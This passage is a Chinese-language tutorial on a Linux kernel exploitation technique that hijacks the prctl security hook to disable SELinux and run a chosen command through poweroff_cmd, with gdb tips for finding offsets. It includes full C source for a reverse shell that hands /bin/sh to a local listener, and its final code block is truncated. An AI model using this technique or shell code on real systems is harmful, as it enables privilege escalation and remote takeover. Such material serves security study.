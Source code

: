 整体操作方法：
1. 泄露出相应的内核地址，分别是`security_task_prctl`、`prctl_hook_task`、`poweroff_work_func`、`poweroff_cmd`、`selinux_disable`
2. 劫持`task_prctl`为`selinux_disable()`函数地址
3. 执行`prctl`系统调用，使`selinux`失效
4. 篡改`poweroff_cmd` = 预期执行的命令
2. 劫持`task_prctl`为`poweroff_work_func()`函数地址
3. 执行`prctl`系统调用


 那么，如何获取关键系统函数和全局变量的偏移地址

第一处：
![image_1e7ruv5ad1oq018ja10h14ft1qej13.png-142.4kB][6]
获取`security_task_prctl()`函数地址后，使用`gdb`查看，在第一个`call QWRD PTR [rbx+0x18]`处，即是`prctl_hook_task`的地址。
![image_1e7rup6i21t73195b3a7iugto79.png-102.6kB][7]

第二处：
![image_1e7rv1ckk76o11i81cadog7ee91g.png-58.1kB][8]
获取`poweroff_work_func()`函数地址后，使用`gdb`查看，在第一个`call xxx`处，是`run_cmd()`函数的调用，而它的rdi参数，即是`poweroff_cmd`的地址。
![image_1e7rurbdg1jf01ie310mqkss1e88m.png-102.2kB][9]


ps. `linux_v5`版本后，汇编代码有所变化，虽然`task_prctl`地址是`[rbx+0x18]`处，但无法被修改。

### exp_hijack_prctl

反弹`shell`的执行文件
```C
//reverse_shell.c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <netdb.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(int argc,char *argv[])
{
    int sockfd,numbytes;
    char buf[BUFSIZ];
    struct sockaddr_in addr;
    while((sockfd = socket(AF_INET,SOCK_STREAM,0)) == -1);
    printf("We get the sockfd~\n");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(23333);
    addr.sin_addr.s_addr=inet_addr("127.0.0.1");
    bzero(&(addr.sin_zero), 8);
    
    while(connect(sockfd,(struct sockaddr*)&addr,sizeof(struct sockaddr)) == -1);
    dup2(sockfd,0);
    dup2(sockfd,1);
    dup2(sockfd,2);
    system("/bin/sh");
    return 0;
}
```
```C
#include <stdio.h>
#include <stdlib.h>
```

  [1]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=018ef8dcf3de5f62e2cc1a9273cc27e1c6ba8de5
  [2]: http://static.zybuluo.com/leafish/7kllxk3wq7npozo6ay31u34v/image_1e7t7btk61ih1ejb14smvk6ahe9.png
  [3]: http://static.zybuluo.com/leafish/ic34zdg3ad9pzjmdlexkscfr/image_1e7ng9lll1b8o3c618pi5d21h419.png
  [4]: http://static.zybuluo.com/leafish/kday5phaa948j024wr5zp6vu/image_1e7nsim15g5s1asa10oq1pmb1kaa9.png
  [5]: http://static.zybuluo.com/leafish/tyqt2hszfcv4dryegu5wcmdn/image_1e7nssvpm1nfrnononklo11gt6m.png
  [6]: http://static.zybuluo.com/leafish/y85k77eqmfr00x5v9fiqixcd/image_1e7ruv5ad1oq018ja10h14ft1qej13.png
  [7]: http://static.zybuluo.com/leafish/u3wt7758a10e22r0n4d06hpp/image_1e7rup6i21t73195b3a7iugto79.png
  [8]: http://static.zybuluo.com/leafish/2hwyuqcz7k70pihgu2zn4pqj/image_1e7rv1ckk76o11i81cadog7ee91g.png
  [9]: http://static.zybuluo.com/leafish/fvprvqa9klbq96h1opkzyalf/image_1e7rurbdg1jf01ie310mqkss1e88m.png
  [10]: http://static.zybuluo.com/leafish/bzbhhjvgu1j3qsodbcz3vngn/image_1e7t6hsg68ojri3mu3dq1gll1t.png